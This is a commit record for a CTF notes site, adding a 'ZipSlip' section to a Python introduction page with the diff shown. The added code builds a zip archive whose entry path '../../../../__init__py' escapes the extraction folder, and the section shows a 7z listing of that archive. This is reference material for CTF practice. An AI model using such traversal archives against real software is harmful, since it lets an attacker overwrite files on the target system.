

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/programming/python/introduction.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add zip slip

````diff
--- a/docs/programming/python/introduction.md
+++ b/docs/programming/python/introduction.md
@@ -4,6 +4,30 @@ description: Introduction Python programming language
 ---
 
 # Introduction
+
+## ZipSlip
+
+```python
+import zipfile
+
+zf = zipfile.ZipFile("evil.zip", "w")
+zf.writestr(zipfile.ZipInfo(r"commands/command.txt"), "echo 'Hello World!'")
+zf.writestr(zipfile.ZipInfo(r"../../../../__init__py"), "content")
+zf.close()
+```
+
+Result:
+
+```bash
+$ 7z l evil.zip
+[...]
+   Date      Time    Attr         Size   Compressed  Name
+------------------- ----- ------------ ------------  ------------------------
+1980-01-01 00:00:00 .....           19           19  commands/command.txt
+1980-01-01 00:00:00 .....            7            7  ../../../../__init__py
+------------------- ----- ------------ ------------  ------------------------
+1980-01-01 00:00:00                 26           26  2 files
+```
 
 ## Cmdloop
 
````
